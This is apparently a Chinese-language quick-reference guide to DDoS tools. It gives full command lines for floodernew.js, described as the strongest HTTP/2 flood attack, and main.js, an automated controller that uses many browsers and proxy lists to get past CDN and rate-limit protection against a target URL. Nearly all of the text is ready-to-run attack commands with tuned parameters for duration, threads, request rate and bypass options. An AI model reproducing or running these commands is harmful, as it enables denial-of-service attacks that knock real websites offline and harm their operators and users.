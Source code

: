
## 🎯 常用命令速查

### 1. floodernew.js - 最强 HTTP/2 攻击

```bash
# 基础攻击
node floodernew.js GET "https://target.com" <时长> <线程> <速率> <代理文件>

# 示例
node floodernew.js GET "https://target.com" 120 16 90 proxy.txt

# 高级选项
node floodernew.js GET "https://target.com?q=%RAND%" 300 32 120 proxy.txt \
    --limit true \      # 绕过限流
    --query 1 \         # 随机 query
    --delay 10 \        # 延迟 10ms
    --debug             # 显示状态码
```

**参数说明**:
- `<时长>`: 攻击时长（秒），如 120
- `<线程>`: 线程数，建议 8-32
- `<速率>`: 速率限制，建议 80-120
- `<代理文件>`: 代理列表文件路径

**常用选项**:
- `--limit true` - 绕过速率限制
- `--query 1/2/3` - 随机 query string
- `--debug` - 显示响应状态码
- `--delay <ms>` - 请求延迟
- `--cookie "<cookie>"` - 自定义 Cookie

---

### 2. main.js - 智能攻击控制器

```bash
# 全自动绕过 + 攻击
node main.js -u <目标URL> -p <代理文件> -t <浏览器数> -r <请求数> -s <时长> [选项]

# 示例
node main.js -u https://target.com -p proxy.txt -t 10 -r 15 -s 300 -o

# 高级示例
node main.js \
    -u https://target-with-cdnfly.com \
    -p proxy_filtered.txt \
    -t 20 \             # 20 个浏览器
    -r 15 \             # 每浏览器 15 请求/秒
    -s 600 \            # 持续 10 分钟
    -c \                # 失败时关闭代理
    -o \                # 优化（拦截字体）
    -d                  # 调试模式
```

